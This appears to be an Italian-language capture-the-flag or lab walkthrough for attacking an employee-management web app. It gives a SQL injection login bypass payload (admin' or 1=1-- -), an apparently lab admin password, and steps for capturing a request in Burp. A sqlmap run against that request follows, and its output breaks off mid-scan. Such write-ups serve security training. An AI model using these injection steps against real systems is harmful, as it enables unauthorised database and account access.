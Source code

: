 
1) Provo una classica SQLi per il login cioè mettere admin' or 1=1-- - nel campo username
2) Basta metttere nella pagina di login username=admin' or 1=1-- - 
e la passsword a caso
3) Una volta dentro trovo la password dell'admin : SuperGucciRainbowCake
4) Salvo la password dentro un file nano: nano password.txt
5) Vai nella sezione emplys list crea un nuovo employs e mentre clicchi il tatso save intercetta la richiesta con burp, poi la richiesta salvala in un file chiamato: save_employs
6) Usa sqlmap:
┌──(kali㉿kali)-[~]
└─$ sqlmap -r save_employs --batch --dbms mysql --threads 10 --dbs                                                             
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.6.7#stable}
|_ -| . [,]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:29:44 /2022-10-09/

[13:29:44] [INFO] parsing HTTP request from 'save_employs'
[13:29:45] [WARNING] provided value for parameter 'id' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[13:29:45] [WARNING] provided value for parameter 'middlename' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[13:29:45] [WARNING] provided value for parameter 'department_id' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[13:29:45] [WARNING] provided value for parameter 'position_id' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[13:29:45] [WARNING] provided value for parameter 'salary' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[13:29:45] [INFO] testing connection to the target URL
[13:29:45] [INFO] testing if the target URL content is stable
[13:29:45] [ERROR] there was an error checking the stability of page because of lack of content. Please check the page request results (and probable errors) by using higher verbosity levels
[13:29:45] [INFO] testing if POST parameter 'id' is dynamic
[13:29:45] [INFO] POST parameter 'id' appears to be dynamic
[13:29:46] [WARNING] heuristic (basic) test shows that POST parameter 'id' might not be injectable
[13:29:46] [INFO] testing for SQL injection on POST parameter 'id'
[13:29:46] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[13:29:46] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[13:29:46] [INFO] testing 'Generic inline queries'
[13:29:46] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[13:29:47] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[13:29:47] [WARNING] time-based comparison requires larger statistical model, please wait............... (done)     
it is recommended to perform only basic UNION tests if there is not at least one other (potential) technique found. 
[13:29:48] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[13:29:49] [WARNING] POST parameter 'id' does not seem to be injectable
[13:29:49] [INFO] testing if POST parameter 'firstname' is dynamic
[13:29:49] [WARNING] POST parameter 'firstname' does not appear to be dynamic
[13:29:49] [WARNING] heuristic (basic) test shows that POST parameter 'firstname' might not be injectable
[13:29:49] [INFO] testing for SQL injection on POST parameter 'firstname'
[13:29:49] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[13:29:50] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[13:29:50] [INFO] testing 'Generic inline queries'